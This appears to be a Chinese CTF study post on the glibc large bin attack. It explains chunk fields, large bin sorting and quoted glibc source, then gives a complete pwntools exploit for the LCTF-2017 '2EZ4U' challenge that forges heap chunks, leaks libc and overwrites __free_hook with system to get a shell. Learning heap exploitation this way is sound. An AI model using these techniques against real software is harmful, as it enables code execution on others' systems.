







## large bin attack

大部分搬运自[https://www.anquanke.com/post/id/183877#h2-0](https://www.anquanke.com/post/id/183877#h2-0)

#### malloc_chunk

搬运一下wiki写的malloc_chunk结构吧，这里主要注意fd_nextsize和bk_nextsize的含义。

```c
/*
  This struct declaration is misleading (but accurate and necessary).
  It declares a "view" into memory allowing access to necessary
  fields at known offsets from a given base. See explanation below.
*/
struct malloc_chunk {

  INTERNAL_SIZE_T      prev_size;  /* Size of previous chunk (if free).  */
  INTERNAL_SIZE_T      size;       /* Size in bytes, including overhead. */

  struct malloc_chunk* fd;         /* double links -- used only if free. */
  struct malloc_chunk* bk;

  /* Only used for large blocks: pointer to next larger size.  */
  struct malloc_chunk* fd_nextsize; /* double links -- used only if free. */
  struct malloc_chunk* bk_nextsize;
};
```

每个字段的具体的解释如下

- **prev_size**, 如果该 chunk 的**物理相邻的前一地址 chunk（两个指针的地址差值为前一 chunk 大小）**是空闲的话，那该字段记录的是前一个 chunk 的大小 (包括 chunk 头)。否则，该字段可以用来存储物理相邻的前一个 chunk 的数据。**这里的前一 chunk 指的是较低地址的 chunk** 。

- **size**，该 chunk 的大小，大小必须是 2 * SIZE_SZ 的整数倍。如果申请的内存大小不是 2 * SIZE_SZ 的整数倍，会被转换满足大小的最小的 2 * SIZE_SZ 的倍数。32 位系统中，SIZE_SZ 是 4；64 位系统中，SIZE_SZ 是 8。 该字段的低三个比特位对 chunk 的大小没有影响，它们从高到低分别表示

  - NON_MAIN_ARENA，记录当前 chunk 是否不属于主线程，1 表示不属于，0 表示属于。

  - IS_MAPPED，记录当前 chunk 是否是由 mmap 分配的。
  - PREV_INUSE，记录前一个 chunk 块是否被分配。一般来说，堆中第一个被分配的内存块的 size 字段的 P 位都会被设置为 1，以便于防止访问前面的非法内存。当一个 chunk 的 size 的 P 位为 0 时，我们能通过 prev_size 字段来获取上一个 chunk 的大小以及地址。这也方便进行空闲 chunk 之间的合并。

- **fd，bk**， chunk 处于分配状态时，从 fd 字段开始是用户的数据。chunk 空闲时，会被添加到对应的空闲管理链表中，其字段的含义如下

  - fd 指向下一个（非物理相邻）空闲的 chunk
  - bk 指向上一个（非物理相邻）空闲的 chunk
  - 通过 fd 和 bk 可以将空闲的 chunk 块加入到空闲的 chunk 块链表进行统一管理

- **fd_nextsize， bk_nextsize**，也是只有 chunk 空闲的时候才使用，不过其用于较大的 chunk（large chunk）。

  - fd_nextsize 指向前一个与当前 chunk 大小不同的第一个空闲块，不包含 bin 的头指针。
  - bk_nextsize 指向后一个与当前 chunk 大小不同的第一个空闲块，不包含 bin 的头指针。
  - 一般空闲的 large chunk 在 fd 的遍历顺序中，按照由大到小的顺序排列。**这样做可以避免在寻找合适 chunk 时挨个遍历。**


#### large bin的大小范围

 size与index对应的关系 

```
size	index
[0x400 , 0x440)	64
[0x440 , 0x480)	65
[0x480 , 0x4C0)	66
[0x4C0 , 0x500)	67
[0x500 , 0x540)	68
等差 0x40	…
[0xC00 , 0xC40)	96
[0xC40 , 0xE00)	97
[0xE00 , 0x1000)	98
[0x1000 , 0x1200)	99
[0x1200 , 0x1400)	100
[0x1400 , 0x1600)	101
等差 0x200	…
[0x2800 , 0x2A00)	111
[0x2A00 , 0x3000)	112
[0x3000 , 0x4000)	113
[0x4000 , 0x5000)	114
等差 0x1000	…
[0x9000 , 0xA000)	119
[0xA000 , 0x10000)	120
[0x10000 , 0x18000)	121
[0x18000 , 0x20000)	122
[0x20000 , 0x28000)	123
[0x28000 , 0x40000)	124
[0x40000 , 0x80000)	125
[0x80000 , …. )	126
```


#### large bin的行为

在相同的index下 

- largebin的插入顺序不再是LIFO或FILO，而是一种全新的方式。

- 按照大小从大到小排序
- 若大小相同,按照free时间排序
- 若干个大小相同的堆块,只有首堆块的`fd_nextsize`和`bk_nextsize`会指向其他堆块,后面的堆块的`fd_nextsize`和`bk_nextsize`均为0
- size最大的chunk的`bk_nextsize`指向最小的chunk; size最小的chunk的`fd_nextsize`指向最大的chunk


#### large bin行为示例1

大小不同但属于一个bin的情况

放入同一large bin中的chunk会按照大小排列

```c
#include<stdio.h>
#include<stdlib.h>
int main()
{
    char *gap;

    char *ptr0=malloc(0x400-0x10); //A
    gap=malloc(0x10);
    char *ptr1=malloc(0x410-0x10); //B
    gap=malloc(0x10);
    char *ptr2=malloc(0x420-0x10); //C
    gap=malloc(0x10);
    char *ptr3=malloc(0x430-0x10); //D
    gap=malloc(0x10);
    free(ptr2);
    free(ptr3);
    free(ptr0);
    free(ptr1);

    malloc(0x440); //trigger that sort largebin from unsorted bin to largebins

    return 0;
}
```

执行完malloc(0x440)后，unsorted bin被清空




**各chunk fd和bk的指向情况**




**各chunk fd_nextsize和bk_nextsize的指向情况**



#### large bin行为示例2

chunk大小相同的情况

```c
#include<stdio.h>

int main()
{
    char *gap;

    char *ptr0=malloc(0x400-0x10); //A
    gap=malloc(0x10);
    char *ptr1=malloc(0x400-0x10); //B
    gap=malloc(0x10);
    char *ptr2=malloc(0x400-0x10); //C
    gap=malloc(0x10);
    char *ptr3=malloc(0x400-0x10); //D
    gap=malloc(0x10);


    free(ptr2);  //C
    free(ptr3);  //D
    free(ptr0);  //A
    free(ptr1); //B

    malloc(0x440); //trigger that sort largebin from unsorted bin to largebins

    return 0;
}
```

执行完malloc(0x440)



**各chunk fd和bk的指向情况**



**各chunk fd_nextsize和bk_nextsize的指向情况**




#### large bin行为示例3

 既存在相同大小的堆块又存在不同大小的堆块管理示例 

```
#include<stdio.h>

int main()
{
    char *gap;

    char *ptr0=malloc(0x400-0x10); //A
    gap=malloc(0x10);
    char *ptr1=malloc(0x410-0x10); //B
    gap=malloc(0x10);
    char *ptr2=malloc(0x420-0x10); //C
    gap=malloc(0x10);
    char *ptr3=malloc(0x430-0x10); //D
    gap=malloc(0x10);
    char *ptr4=malloc(0x400-0x10); //E
    gap=malloc(0x10);
    char *ptr5=malloc(0x410-0x10); //F
    gap=malloc(0x10);
    char *ptr6=malloc(0x420-0x10); //G
    gap=malloc(0x10);
    char *ptr7=malloc(0x430-0x10); //H
    gap=malloc(0x10);

    free(ptr2); //C
    free(ptr3); //D
    free(ptr0); //A
    free(ptr1); //B
    free(ptr7); //H
    free(ptr6); //G
    free(ptr5); //F
    free(ptr4); //E

    malloc(0x440); //trigger that sort largebin from unsorted bin to largebins

    return 0;
}
```

**malloc(0x400)后各chunk fd_nextsize和bk_nextsize的指向情况**




####  largebin chunk从unsorted bin中取出源码

这个师傅总结的太好，实在忍不住抄作业

```c
/* place chunk in bin */

          if (in_smallbin_range (size))
            {
              ...  // chunk为smallbin，放入到smallbin中
            }
          else
            {
              victim_index = largebin_index (size);//第一步，获取当前要插入的chunk对应的index
              bck = bin_at (av, victim_index); //当前index中最小的chunk
              fwd = bck->fd;                   //当前index中最大的chunk

              /* maintain large bins in sorted order */
              if (fwd != bck)
                { // 该chunk对应的largebin index中不为空
                  /* Or with inuse bit to speed comparisons */
                  size |= PREV_INUSE;
                  /* if smaller than smallest, bypass loop below */
                  assert ((bck->bk->size & NON_MAIN_ARENA) == 0);
                  if ((unsigned long) (size) < (unsigned long) (bck->bk->size)) //第三步，如果要插入的chunk的size小于当前index中最小chunk的大小，则直接插入到最后面。
                    {
                      fwd = bck;
                      bck = bck->bk;

                      victim->fd_nextsize = fwd->fd;
                      victim->bk_nextsize = fwd->fd->bk_nextsize;
                      fwd->fd->bk_nextsize = victim->bk_nextsize->fd_nextsize = victim;
                    }
                  else
                    {
                      assert ((fwd->size & NON_MAIN_ARENA) == 0);
                      while ((unsigned long) size < fwd->size) //第四步，如果插入的chunk不为最小，则通过`fd_nextsize`从大到小遍历chunk，找到小于等于要插入chunk的位置
                        {
                          fwd = fwd->fd_nextsize;
                          assert ((fwd->size & NON_MAIN_ARENA) == 0);
                        }

                      if ((unsigned long) size == (unsigned long) fwd->size)
                        /* Always insert in the second position.  */
                        fwd = fwd->fd; //第五步，如果存在堆头，则插入到堆头的下一个节点
                      else
                        { //第六步，否则这个chunk将会成为堆头，`bk_nextsize`和`fd_nextsize`将被置位
                          victim->fd_nextsize = fwd;
                          victim->bk_nextsize = fwd->bk_nextsize;
                          fwd->bk_nextsize = victim;
                          victim->bk_nextsize->fd_nextsize = victim;
                        }
                      bck = fwd->bk;
                    }
                }
              else   //第二步，chunk对应的largebin index中为空
                victim->fd_nextsize = victim->bk_nextsize = victim;
            }

          mark_bin (av, victim_index);
          //设置fd与bk完成插入
          victim->bk = bck; 
          victim->fd = fwd;
          fwd->bk = victim;
          bck->fd = victim;
          ...
        }
```

整个流程可以总结为：

1. 找到当前要插入的chunk对应的largebin的index，并定位该index中的最小的chunk`bck`和最大的chunk`fwd`。
2. 如果`fwd`等于`bck`，表明当前链表为空，则直接将该chunk插入，并设置该chunk为该大小堆块的堆头，将`bk_nextsize`和`fd_nextsize`赋值为它本身。
3. 如果`fwd`不等于`bck`，表明当前链表已经存在chunk，要做的就是找到当前chunk对应的位置将其插入。首先判断其大小是否小于最小chunk的size，`(size) < (bck->bk->size)`，如果小于则说明该chunk为当前链表中最小的chunk，即插入位置在链表末尾，无需遍历链表，直接插入到链表的末尾，且该chunk没有对应的堆头，设置该chunk为相应堆大小堆的堆头，将`bk_nextsize`指向比它大的堆头，`fd_nextsize`指向双链表的第一个节点即最大的堆头。
4. 如果当前chunk的size不是最小的chunk，则从双链表的第一个节点即最大的chunk的堆头开始遍历，通过`fd_nextsize`进行遍历，由于`fd_nextsize`指向的是比当前堆头小的堆头，因此可以加快遍历速度。直到找到小于等于要插入的chunk的size。
5. 如果找到的chunk的size等于要插入chunk的size，则说明当前要插入的chunk的size已经存在堆头，那么只需将该chunk插入到堆头的下一个节点。
6. 如果找到的chunk的size小于当前要插入chunk的size，则说明当前插入的chunk不存在堆头，因此该chunk会成为堆头插入到该位置，设置`fd_nextsize`与`bk_nextsize`。


#### 从large bin中取chunk的源码

```c
 /*
         If a large request, scan through the chunks of current bin in
         sorted order to find smallest that fits.  Use the skip list for this.
       */
      if (!in_smallbin_range (nb))
        {
          bin = bin_at (av, idx); //找到申请的size对应的largebin链表

          /* skip scan if empty or largest chunk is too small */
          if ((victim = first (bin)) != bin &&
              (unsigned long) (victim->size) >= (unsigned long) (nb)) //第一步，判断链表的第一个结点，即最大的chunk是否大于要申请的size
            {
              victim = victim->bk_nextsize; 
              while (((unsigned long) (size = chunksize (victim)) <
                      (unsigned long) (nb))) //第二步，从最小的chunk开始，反向遍历 chunk size链表，直到找到第一个大于等于所需chunk大小的chunk退出循环
                victim = victim->bk_nextsize; 

              /* Avoid removing the first entry for a size so that the skip
                 list does not have to be rerouted.  */
              if (victim != last (bin) && victim->size == victim->fd->size) //第三步，申请的chunk对应的chunk存在多个结点，则申请相应堆头的下个结点，不申请堆头。
                victim = victim->fd;

              remainder_size = size - nb;
              unlink (av, victim, bck, fwd); //第四步，largebin unlink 操作

              /* Exhaust */
              if (remainder_size < MINSIZE) //第五步，如果剩余的空间小于MINSIZE，则将该空间直接给用户
                {
                  set_inuse_bit_at_offset (victim, size);
                  if (av != &main_arena)
                    victim->size |= NON_MAIN_ARENA;
                }
              /* Split */
              else
                {
                  remainder = chunk_at_offset (victim, nb); //第六步，如果当前剩余空间还可以构成chunk，则将剩余的空间放入到unsorted bin中。
                  /* We cannot assume the unsorted list is empty and therefore
                     have to perform a complete insert here.  */
                  bck = unsorted_chunks (av);
                  fwd = bck->fd;
      if (__glibc_unlikely (fwd->bk != bck))
                    {
                      errstr = "malloc(): corrupted unsorted chunks";
                      goto errout;
                    }
                  remainder->bk = bck;
                  remainder->fd = fwd;
                  bck->fd = remainder;
                  fwd->bk = remainder;
                  if (!in_smallbin_range (remainder_size))
                    {
                      remainder->fd_nextsize = NULL;
                      remainder->bk_nextsize = NULL;
                    }
                  set_head (victim, nb | PREV_INUSE |
                            (av != &main_arena ? NON_MAIN_ARENA : 0));
                  set_head (remainder, remainder_size | PREV_INUSE);
                  set_foot (remainder, remainder_size);
                }
              check_malloced_chunk (av, victim, nb);
              void *p = chunk2mem (victim);
              alloc_perturb (p, bytes);
              return p;
            }
        }
```

可以将整个流程总结为：

1. 找到当前要申请的空间对应的largebin链表，判断第一个结点即最大结点的大小是否大于要申请的空间，如果小于则说明largebin中没有合适的堆块，需采用其他分配方式。
2. 如果当前largebin中存在合适的堆块，则从最小堆块开始，通过`bk_nextsize`反向遍历链表，找到大于等于当前申请空间的结点。
3. 为减少操作，判断找到的相应结点（堆头）的下个结点是否是相同大小的堆块，如果是的话，将目标设置为该堆头的第二个结点，以此减少将`fd_nextsize`与`bk_nextsize`赋值的操作。
4. 调用`unlink`将目标largebin chunk从双链表中取下。
5. 判断剩余空间是否小于MINSIZE，如果小于直接返回给用户。
6. 否则将剩余的空间构成新的chunk放入到unsorted bin中。


#### unlink

```c
/* Take a chunk off a bin list */
#define unlink(AV, P, BK, FD) {                                            
    if (__builtin_expect (chunksize(P) != (next_chunk(P))->prev_size, 0))      
      malloc_printerr (check_action, "corrupted size vs. prev_size", P, AV);  
    FD = P->fd;                                      
    BK = P->bk;                                      
    if (__builtin_expect (FD->bk != P || BK->fd != P, 0))              
      malloc_printerr (check_action, "corrupted double-linked list", P, AV);  
    else {                                      
        FD->bk = BK;                                  
        BK->fd = FD;                                  
        if (!in_smallbin_range (P->size)                      
            && __builtin_expect (P->fd_nextsize != NULL, 0)) {              
        if (__builtin_expect (P->fd_nextsize->bk_nextsize != P, 0)          
        || __builtin_expect (P->bk_nextsize->fd_nextsize != P, 0))    
          malloc_printerr (check_action,                      
                   "corrupted double-linked list (not small)",    
                   P, AV);                          
            if (FD->fd_nextsize == NULL) {                      
                if (P->fd_nextsize == P)                      
                  FD->fd_nextsize = FD->bk_nextsize = FD;              
                else {                                  
                    FD->fd_nextsize = P->fd_nextsize;                  
                    FD->bk_nextsize = P->bk_nextsize;                  
                    P->fd_nextsize->bk_nextsize = FD;                  
                    P->bk_nextsize->fd_nextsize = FD;                  
                  }                                  
              } else {                                  
                P->fd_nextsize->bk_nextsize = P->bk_nextsize;              
                P->bk_nextsize->fd_nextsize = P->fd_nextsize;              
              }                                      
          }                                      
      }                                          
}
```

再看看largebin的unlink检查，从代码中可以看到，就是多了`fd_nextsize`和`bk_nextsize`俩个位置的检查，原理和`fd`和`bk`的检查一致。但是需要注意的是对于存在多个满足空间的堆块来说，申请出来的是堆头的下一个结点，它的`fd_nextsize`和`bk_nextsize`为空。也就是说即使它是largebin chunk，但是它的`fd_nextsize`也为空，即不满足条件`__builtin_expect (P->fd_nextsize != NULL, 0)`，对于此类chunk的unlink，只会像smallbin的unlink一样检查`fd`与`bk`，而不会对`fd_nextsize`与`bk_nextsize`进行检查与操作。

至此largebin链表的形成以及申请largebin都已经阐述清楚。再小结下，对于largebin的链表的插入，双链表是从大到小的chunk排序，相同大小的chunk会有一个堆头，只有堆头的`fd_nextsize`与`bk_nextsize`会被赋值，其余堆块的该字段为0。插入的遍历是通过`fd_nextsize`从大到小进行的，如果该插入的chunk存在对应堆头，则插入到该堆头的下一个结点，否则的话该chunk会成为堆头插入到链表中。

对于largebin的申请，通过判断双链表的第一个结点（最大结点）的大小来判断是否存在满足的堆块，如果有则从小到大通过`bk_nextsize`反向遍历双链表，找到最小的满足申请需求的堆块，如果该堆头下一个结点的大小也满足则将该结点作为目标分配给用户，以此减少链表的`fd_nextsize`与`bk_nextsize`操作，提高效率。对于双链表的unlink，需要注意的就是`fd_nextsize`与`bk_nextsize`检查，特别需要注意的是当结点是堆头的下一个结点时，它的`fd_nextsize`与`bk_nextsize`为0，此时unlink操作与smallbin的unlink操作一致，没有`fd_nextsize`与`bk_nextsize`的检查与操作。


#### LCTF-2017 2EZ4U

exp

```python
#!/usr/bin/env python
# coding=utf-8
from pwn import*

#context.log_level='debug'

def Add(l,d):
    p.sendlineafter('choice: ','1')
    p.sendlineafter('):','0')
    p.sendlineafter('):','0')
    p.sendlineafter('):','0')
    p.sendlineafter('):',str(l))
    p.sendlineafter('apple:',d)
def Edit(idx,d):
    p.sendlineafter('choice: ','3')
    p.sendlineafter('):',str(idx))
    p.sendlineafter('):','0')
    p.sendlineafter('):','0')
    p.sendlineafter('):','0')
    p.sendlineafter('apple:',d)
def Show(idx):
    p.sendlineafter('choice: ','4')
    p.sendlineafter('):',str(idx))
def Del(idx):
    p.sendlineafter('choice: ','2')
    p.sendlineafter('):',str(idx))

p=process('./2ez4u')
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6',checksec=False)

Add(0x60,'0'*0x60)#0
Add(0x60,'1'*0x60)#1
Add(0x60,'2'*0x60)#2
Add(0x60,'3'*0x60)#3
Add(0x60,'4'*0x60)#4
Add(0x60,'5'*0x60)#5
Add(0x3f0,'7'*0x3f0)#6
Add(0x60,  '8'*0x60 )#7
Add(0x3e0, '9'*0x3e0)#8
Add(0x60,  '9'*0x80 )#9
Add(0x3f0, 'a'*0x3d0)#a
Add(0x60-0x18,  'b'*0x30 )#b
Add(0x60-0x18,  'c'*0x30 )#c
Add(0x60-0x18,  'd'*0x30 )#d

Del(8)
Del(0xa)
Del(0)

Add(0x400,'')#1

Show(0xa)
p.recvuntil('description:')
heap_addr=u64(p.recvuntil('\n',drop=True).ljust(8,'\0'))-0x790
success('heap_addr:'+hex(heap_addr))
target_addr=heap_addr+0x130 #2
fchunk1_addr=heap_addr+0xb0 #1
fchunk2_addr=heap_addr+0x1b0 #3
fchunk3_addr=heap_addr+0xc10 #10

success('target_addr:'+hex(target_addr))
success('fchunk1_addr:'+hex(fchunk1_addr))
success('fchunk2_addr:'+hex(fchunk2_addr))
success('fchunk3_addr:'+hex(fchunk3_addr))

Edit(0xa,p64(target_addr))

ftarget=p64(0)*2+p64(0x411)+p64(fchunk1_addr-0x18)+p64(fchunk1_addr-0x10)
ftarget+=p64(fchunk3_addr)+p64(fchunk2_addr)
Edit(2,ftarget)

fake=p64(0)+p64(target_addr)
Edit(1,fake)

fake=p64(0)*2+p64(0x421)+p64(0)*2+p64(target_addr)
Edit(3,fake)
Edit(6,'6'*0x218+p64(0x410)+p64(0x411))

Del(5)
Del(3)

Add(0x3f0,'3'*56)#3
Add(0x60,'')#5
Show(3)
p.recvuntil('3'*56)
libc_base=u64(p.recv(6).ljust(8,'\0'))-0x3c4be8
success('libc_base:'+hex(libc_base))
free_hook=libc.sym['__free_hook']+libc_base
success('free_hook:'+hex(free_hook))
system=libc_base+libc.sym['system']
#unsortbin attack

Del(6)
Del(3)

pay=p64(0)*2+p64(0x411)+p64(heap_addr+0x280)+p64(free_hook-0x48)
Edit(2,pay)
Add(0x3f0,'')
#fastbin attack
pay=p64(0)*2+p64(0x71)
Edit(2,pay)
pay=p64(0)*6+p64(0x31)+p64(0)*3+p64(0x431)
Edit(3,pay)
Del(0xc)
Del(0x3)

pay=p64(0)*2+p64(0x71)+p64(free_hook-0x3b)

Edit(2,pay)

Add(0x60-0x18,'/bin/sh')
pay='a'*0x13+p64(system)

Add(0x60-0x18,pay)

pay=p64(0)*2+p64(0x71)+'/bin/sh'
Edit(2,pay)
Del(3)

p.interactive()

```


参考文章

[https://xz.aliyun.com/t/5177](https://xz.aliyun.com/t/5177)

[https://eternalsakura13.com/2018/03/21/lctf2/](https://eternalsakura13.com/2018/03/21/lctf2/)